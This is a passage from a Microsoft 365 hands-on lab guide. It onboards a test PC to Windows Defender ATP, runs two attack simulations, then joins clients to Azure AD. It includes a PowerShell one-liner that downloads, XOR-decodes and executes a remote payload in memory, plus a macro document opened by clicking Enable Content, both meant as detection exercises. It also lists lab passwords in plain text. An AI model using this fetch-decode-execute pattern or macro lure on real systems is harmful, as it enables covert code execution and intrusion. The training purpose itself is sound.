 	![g47p8c30.jpg](https://github.com/kemckinnmsft/M365HOL3001/blob/master/Media/g47p8c30.jpg)

3.Switch to VictimPC and log in with the credentials below.

	**JeffV**

	**Password$fun**

1.Browse to **\\\Contosodc\sysvol\Contoso.Azure\scripts**
1.Copy **WindowsDefenderATPLocalOnboardingScript** to the desktop.
1.Right-click on **WindowsDefenderATPLocalOnboardingScript** and click **Run as Administrator**.
1.Press **(Y)** to confirm onboarding.
1.Run **Attack Simulation #1 "Automated investigation (fileless attack)"** by following the instructions below:
	1.Open a PowerShell window and click on the code below to type it in the window (please wait until you see **($decryptedBytes))** before pressing **Enter**):
	
	**[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI https://winatpmanagement.windows.com/client/management/static/WinATP-Intro-Fileless.txt -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0; $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i]; $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))**

1.Switch to AdminPC and run **Attack Simulation #2 "Automated investigation (backdoor)"** by following the instructions below:
	1.On the desktop, double-click on **RS4_WinATP-Intro-Invoice.docm** and enter **WDATP!diy#** when prompted for a password.
	2.Once the file opens, in the **Security Warning** ribbon, click **Enable Content**.
	3.Click **OK** to confirm the attack.
	4.Press **Enter** to close the command prompt window.
===
# Workplace Join Clients

In this task, we will join 3 systems to the Azure AD tenant to provide SSO capabilities in Office.

1.On Client01, right-click on the start menu and click **Run**.
1.In the Run dialog, type **ms-settings:workplace** and click **OK**.

	>![mssettings.png](https://github.com/kemckinnmsft/M365HOL3001/blob/master/Media/mssettings.png)

1.In the Access Work or School settings menu, click on **+ Connect** and enter the credentials below to workplace join the client.

	**AdamS@<TenantName>**

	**pass@word1**

	> NOTE: If the Next button does not light up on the username screen, press **Backspace** and the letter **m**.

1.Click **Done**.
1.Log into Client02 by pressing Ctrl-Alt-Delete and using the credentials below:

	**LabUser**
